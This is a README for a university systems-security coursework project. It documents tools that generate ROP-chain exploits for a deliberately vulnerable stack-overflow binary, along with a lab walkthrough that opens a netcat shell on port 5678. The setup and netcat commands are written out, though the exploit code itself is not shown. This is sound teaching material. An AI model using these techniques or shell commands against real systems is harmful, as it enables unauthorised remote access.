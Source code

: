 # COMSM0051 Systems and Software Security Coursework
## Project 4
### Group Members

This repository contains the source code created for the COMSM0051 Systems and Software Security unit at the University of Bristol.

The members of the group are:

* Ruairi Fox (rf17160)
* Bogdan Stelea (bs17580)
* Emil Centiu (zl18810)

## Instructions

### Prerequisites

The project has been developed and tested on a Ubuntu 18.04.5 LTS Bionic Beaver Virtual Machine. Please run the following commands to install all the packages needed to execute the project:

* `sudo apt-get update`
* `sudo apt-get install -y python3-pip gcc-multilib gdb`
* `pip3 install pygdbmi`
* `pip3 install ropgadget`

A Vagrantfile is also provided in the repository which will install automatically all the required packages on provision when initialising the VagrantBox `vagrant up`.
In order to use the Vagrantfile, the Vagrant and Oracle VirtualBox utilities need to be installed. 

In order to install VirtualBox please follow the instructions for specific Operating Systems [here](https://www.virtualbox.org/wiki/Downloads).
In order to install Vagrant please follow the instructions for specific Operating Systems [here](https://www.vagrantup.com/).

### Running `ropoverflow_execve.py`

The tool `ropoverflow_execve.py` is a Python3 program that given arbitrary command line arguments to be passed to the `execve()` system call automatically generates the corresponding ROP chain.

The program can be used as follows: `python3 ropoverflow_execve.py <binary name> <payload name>`, where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The program will also prompt the user to type the command line arguments to be passed to the `execve()` system call separated by whitespace (i.e. `" "`). The program will automatically detect if further `/` characters need to be inserted. 

Here are some example command line parameters that can be given as input when prompted:

* `/bin/sh`
* `/bin//sh`
* `/tmp/nc -lnp 5678 -tte /bin/sh`
* `/tmp//nc -lnp 5678 -tte /bin//sh`

The program will generate a file having the same name as written by the user when executed corresponding to the `<payload name>` entry. This can be passed in as input to the vulnerable binary in order to inject the payload, for example `./vuln3-32-test exploit.bin`.

### Lab4 Reverse Shell Exploit Task Using `ropoverflow_execve.py`
#### Aim
Open a port on the victim machine using netcat tool that returns a shell (reverse shell exploit).
#### Steps
1. Change current directory to `s3` : `cd s3`
1. Copy netcat to temporary folder using `cp ~/netcat-0.7.1/src/netcat /tmp/nc` (check using `/tmp/nc --help`)
1. Compile vuln3.c using `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32-test` (the example binary is already compiled and present under the same name, `vuln3-32-test`, in the current directory)
1. Build the exploit input string using `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`. When prompted with the message `"Enter exploit parameters:"` enter: `/tmp/nc -lnp 5678 -tte /bin/sh`
1. Run the compiled vulnerable binary passing the exploit file as input (e.g. `./vuln3-32 exploit.bin`)
1. In a separate terminal run `/tmp/nc 127.0.0.1 5678` and check if the reverse shell exploit is working

### Running `ropoverflow.py`

The tool `ropoverflow.py` is a Python3 program that given an arbitrary shellcode file will generate a ROP chain that will call the `mprotect` system call which will disable the `write-xor-execute` protection from the stack, and then will call the `read` system call to read the shellcode from the standard input, which will place the shellcode on the program stack, and then execute the payload.

The program is run with the command: `python3 ropoverflow.py <binary name> <payload name>`, , where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The shellcode needs to be saved in a binary file, for example `badfile`. Then the user can run the exploit by using the `cat` Linux utility to paste the content of the shellcode file to the terminal and append `-` to allow the program to process entries from standard input, and use the pipe (`|`) operator to pass the content of the file to the vulnerable binary that is being passed the payload file containing the ROP chain generated by the `ropoverflow.py` program. An example command looks like following: `cat badfile -| ./vuln3-32-test exploit.bin`. 
